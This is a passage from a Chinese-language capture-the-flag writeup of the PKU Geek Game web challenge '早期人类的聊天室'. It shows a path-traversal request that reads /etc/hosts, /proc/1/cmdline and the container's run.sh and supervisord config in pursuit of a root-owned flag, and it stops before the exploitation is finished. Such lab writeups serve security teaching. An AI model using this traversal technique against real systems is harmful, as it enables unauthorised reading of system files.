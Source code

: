 # 1st PKU Geek Game Writeups by Ruihan Li

 1. Web部分：早期人类的聊天室、Q小树洞的一大步、Flag即服务
 2. Binary部分：射水鱼、字符串转义、最强大脑

其中“字符串转义”题目的出题人是我，其他题目是比赛期间完成的，感觉都还是挺有意思的题目，所以也顺便完成了writeup。

## 早期人类的聊天室

感觉这道题目给源码和告知flag位置都挺多余的（？），属于是没什么帮助的信息。

点开chat log的查看，发现网址形如
```text
https://prob17-qmogqpmq.geekgame.pku.edu.cn/modulename=chatlog&log=chat_log_2021_11_19
```
最后的`chat_log_2021_11_19`看上去是文件名，直接假定程序没写检查，测试一个`../../../../etc/hosts`，发现是存在的
```text
https://prob17-qmogqpmq.geekgame.pku.edu.cn/module?name=chatlog&log=..%2F..%2F..%2F..%2Fetc%2Fhosts
```
接下读一读`/proc`，看看docker是怎么启动的（`/proc/1/cmdline`），发现该文件内容为：
```text
/sbin/docker-init--shrun.sh
```
找一找最后的`run.sh`（可能提供`/src`最大的好处就是这里的文件位置更好猜了？），发现`../run.sh`是存在的，读出来了docker的初始化信息：
```bash
#!/bin/sh

cd /usr/src/ufctf

cp /flagtmp /flag
echo "" > /flagtmp

chown nobody -R . \
    && chmod 0666 -R /tmp/* \
    && chown root:root /flag \
    && chmod 0600 /flag

socat UNIX-LISTEN:/sock/socat.sock,fork,reuseaddr TCP4:127.0.0.1:8080 &

nginx -c /etc/nginx/nginx.conf
exec supervisord -n -c /etc/supervisor-ctf.conf
```
看到了flag的位置，但直接读取是失败的，自然是因为没有权限。再看其他配置文件，比如`/etc/supervisor-ctf.conf`：
```ini
[supervisord]
logfile=/tmp/supervisord.log ; main log file; default $CWD/supervisord.log
logfile_maxbytes=50MB        ; max main logfile bytes b4 rotation; default 50MB
logfile_backups=0           ; # of main logfile backups; 0 means none, default 10
loglevel=info                ; log level; default info; others: debug,warn,trace
pidfile=/tmp/supervisord.pid ; supervisord pidfile; default supervisord.pid
nodaemon=true               ; start in foreground if true; default false
silent=false                 ; no logs to stdout if true; default false
minfds=1024                  ; min. avail startup file descriptors; default 1024
minprocs=200                 ; min. avail process descriptors;default 200

[program:uwsgi]
command=uwsgi --ini /tmp/uwsgi-ctf.ini
user=root
autorestart=true
autostart=true
startretries=3
redirect_stderr=true
startsecs=5
stdout_logfile=/tmp/supervisor.log
stopasgroup=true
```